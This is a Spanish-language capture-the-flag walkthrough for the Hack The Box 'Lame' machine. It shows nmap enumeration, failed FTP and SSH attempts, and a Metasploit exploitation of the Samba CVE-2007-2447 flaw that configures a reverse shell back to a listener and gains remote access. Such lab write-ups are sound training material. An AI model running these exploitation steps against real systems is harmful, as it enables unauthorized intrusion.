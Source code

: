 ```yaml
---
layout: post
title:  "Maquina Lame Hackthebox (metaesploit)"
summary: "Guia para resolver la maquina Lame de hackthebox"
author: drone
date: '2023-10-25'
category: ['hacking','metaesploit', 'linux']
tags: hacking
thumbnail:
keywords: hackthebox lame hackthebox guide
usemathjax: false
permalink: /blog/lame/
---
```


## Maquina Lame

Este es un walkthrough para la resolución de la **Maquina Lame**. En esta guía veremos la explotación de la vulnerabilidad **CVE-2007-2447** también conocida como **username map script** que afecta el servicio **samba**, utilizado para compartir recursos en una red. Esta vulnerabilidad nos permitirá ejecutar comandos de manera remota en la maquina objetivo.

Antes de pasar directamente a la vulnerabilidad iremos haciendo algunas pruebas con los demás servicios para ver si también es que podemos atacar por algún otro puerto.

1.-Ping al objetivo, Por el **ttl** podemos darnos cuenta de que es una máquina **Linux**.

  ![Ping](/assets/maquinas/Lame/01Lame.png)

  ```jsx
ping 10.10.10.3
```

2.-Escaneamos e identificamos todos los puertos abiertos del objetivo.

  ![Ping](/assets/maquinas/Lame/02Lame.png)

  ```jsx
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3
```

3.-Identificamos los servicios que están corriendo en los puertos abiertos.

  ![Ping](/assets/maquinas/Lame/03Lame.png)

  ```jsx
sudo nmap -sCV -p21,22,139,445,3632 -Pn 10.10.10.3
```

4.- En los resultados del escaneo podemos ver que tenemos el puerto 21 abierto y que el **inicio de sesión anónimo** está habilitado lo que da pie a que se pueda acceder al equipo objetivo a través de esta mala configuración en el servicio. Cuando estamos en un caso similar comprobaremos primero que realmente tengamos acceso y después tratar de visualizar, descargar o cargar archivos mediante **ftp**.

![Ping](/assets/maquinas/Lame/04Lame.png)

5.- Intentamos acceder por algún usuario por default que utiliza este servicio, utilizare el usuario y contraseña **ftp:fpt**. Como se puede ver tenemos cierto acceso y enseguida se tratan de listar archivos.

  ![Ping](/assets/maquinas/Lame/05Lame.png)

  ```jsx
ftp 10.10.10.3
```

6.- Tratamos de subir un archivo para comprobar si tenemos permisos de escritura. Al parecer no tenemos permisos.

  ![Ping](/assets/maquinas/Lame/06Lame.png)

  ```jsx
put file
```

7.- Se trato de descargar los archivos a través de la conexión ftp para revisar si podíamos descargar algún archivo oculto. 

  ![Ping](/assets/maquinas/Lame/07Lame.png)

  ```jsx
wget -m --no-passive ftp://ftp:ftp@10.10.10.3
```

8.- Como vimos que no pudimos hacer nada mediante la **autenticación anónima (Anonymous login)**. Entonces regresaremos al escaneo y buscaremos vulnerabilidades sobre el software y la versión que está utilizando el puerto 21 para el servicio **fpt**.  

  ![Ping](/assets/maquinas/Lame/08Lame.png)

9.- Ahora iniciaremos una consola de **metasploit** para buscar vulnerabilidades referentes a vsftpd **2.3.4** y explotar la máquina. Vemos que si existe un **exploit**.

  ![Ping](/assets/maquinas/Lame/09Lame.png)

  ```jsx
msf6 > search vsftpd 2.3.4
```

10.- Ya vimos que tenemos un **exploit** para el servicio de **ftp** que se está usando. Procederemos a configurarlo y posteriormente ejecutarlo.

  ![Ping](/assets/maquinas/Lame/10Lame.png)

11.- Explotamos, aquí este **exploit** no servirá dado que requiere que posteriormente se tengan unas credenciales validas.

  ![Ping](/assets/maquinas/Lame/11Lame.png)

  ```jsx
exploit
```

12.- Lo que tenemos que hacer ahora es regresar a nuestro escaneo de puertos y servicios para buscar otros vectores de ataque en los demas puertos. Seguiremos con el puerto 22 donde está corriendo el servicio de **SSH (Secure Shell)** conexión de acceso remoto cifradas.

13.- Con **NMAP** Procedemos a buscar vulnerabilidades en el puerto 22. Los resultados nos indican que no se encontraron vulnerabilidades.

  ![Ping](/assets/maquinas/Lame/13Lame.png)

  ```jsx
nmap -p 22 --script "vuln" 10.10.10.3 -Pn
ó
nmap -p 22 --script "vuln and safe" 10.10.10.3 -Pn
```

14.- Buscaremos vulnerabilidades a través de **metaesploit**, según los resultados arrojados ningún **exploit** nos sireve ya que la primera opción es un módulo auxiliar para **enumerar** usuarios y el segundo es un **exploit** para Windows.

  ![Ping](/assets/maquinas/Lame/14Lame.png)

  ```jsx
msf6 > search OpenSSH 4
```

15.- Cuando tenemos un puerto 22 podemos intentar es iniciar sesión con el usuario **ROOT**, este usuario viene por defecto activado en **SSH** podemos intentar entrar si es que no deshabilitaron esta opción, por lo que se ve no está activado este usuario.

  ![Ping](/assets/maquinas/Lame/15Lame.png)

  ```jsx
ssh root@10.10.10.3
```

16.- Como tampoco pudimos explotar el puerto 22 regresaremos a nuestro escaneo e intentaremos con otro puerto, en este caso iremos con el puerto 139.

17.- Buscaremos vulnerabilidades en el puerto 139 con **NMAP**. Tampoco pudimos encontrar vulnerabilidades por este puerto.

  ![Ping](/assets/maquinas/Lame/16Lame.png)

  ```jsx
nmap -p 139 --script "vuln" 10.10.10.3 -Pn
ó
nmap -p 139 --script "vuln and safe" 10.10.10.3 -Pn
```

18.- Ahora pasaremos a buscar por el puerto 445, les adelanto que aquí es donde está la vulnerabilidad, entonces regresaremos a nuestro escaneo del principio. Veremos que también hay un servicio **samba** en el puerto 445 y que nos da también la versión que esta corriendo.

En esta ocasión **nmap** no nos ayuda con la búsqueda de la vulnerabilidad haremos uso de una web llamda **https://www.exploit-db.com/** y tomando la versión de **samba** que se está ejecutando, ahora si nos muestra la clave de la vulnerabilidad que presenta este servicio. En los anteriores puertos se puede hacer el mismo procedimiento, se omitió porque la web nos daba los mismos resultados que **nmap**.

![Ping](/assets/maquinas/Lame/18Lame.png)

19.- Procederemos a buscar el **exploit** en **metasploit**.

![Ping](/assets/maquinas/Lame/19Lame.png)

  ```jsx
msfconsole

search CVE-2007-2447
```
20.- Ahora procederemos a usar y configurar el **exploit**, indicamos los puertos e IPs involucradas.

![Ping](/assets/maquinas/Lame/20Lame.png)

  ```jsx
use 0

set RHOSTS 10.10.10.3

set RPORT 445

set LHOST 10.10.10.6

set LPORT 2666
```

21.-Explotamos!.

![Ping](/assets/maquinas/Lame/21Lame.png)

  ```jsx
run
```

22.-Se genera la conexión y podemos ver que entramos al equipo objetivo.

![Ping](/assets/maquinas/Lame/22Lame.png)

  ```jsx
whoami

pwd
```